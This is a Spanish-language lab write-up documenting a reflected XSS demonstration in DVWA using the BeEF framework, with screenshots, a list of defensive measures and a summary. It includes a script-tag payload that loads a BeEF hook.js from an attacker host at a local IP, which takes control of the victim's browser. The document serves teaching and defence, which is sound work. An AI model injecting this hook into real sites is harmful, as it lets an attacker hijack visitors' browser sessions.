







# BeEF - Demostración de XSS en DVWA

> Laboratorio/documentación realizada en entorno local o controlado con fines educativos. No ejecutar estas técnicas contra sistemas ajenos o sin autorización.


## Objetivo

Documentar una práctica de laboratorio donde se usa BeEF para comprobar el impacto de una vulnerabilidad XSS reflejada en DVWA.

## Entorno

| Elemento | Valor |
|---|---|
| Atacante | Kali Linux |
| Aplicación vulnerable | DVWA |
| Herramienta | BeEF |
| Panel local | `http://127.0.0.1:3000/ui/panel` |

## 1. Inicio de BeEF

```bash
sudo beef-xss
```

Tras iniciar el servicio, se accede al panel web local:

```text
http://127.0.0.1:3000/ui/panel
```

## 2. Prueba de hook en DVWA

En un entorno de laboratorio con DVWA en nivel bajo, se prueba la carga del script de BeEF desde el navegador víctima:

```html
<script src="http://192.168.1.150:3000/hook.js"></script>
```

## 3. Impacto observado

Una vez procesado el script por el navegador vulnerable, el panel de BeEF permite observar la sesión enganchada y ejecutar pruebas controladas sobre la pestaña afectada.

## Medidas defensivas

- Escapar correctamente la salida HTML.
- Validar y filtrar entradas de usuario.
- Aplicar Content Security Policy.
- Usar cookies con `HttpOnly`, `Secure` y `SameSite`.
- Evitar reflejar directamente parámetros de entrada en la respuesta.

## Evidencias visuales




*Inicio de BeEF en Kali.*



*Panel web de BeEF.*



*Inserción del hook en DVWA.*



*Navegador enganchado en BeEF.*



*Comando controlado desde BeEF.*



*Redirección de navegador como prueba.*



*Resultado visual de la acción.*

## Resumen

Esta práctica muestra cómo un XSS aparentemente simple puede convertirse en control del contexto del navegador. En defensa, la mitigación debe centrarse en validación, codificación de salida y cabeceras de seguridad.
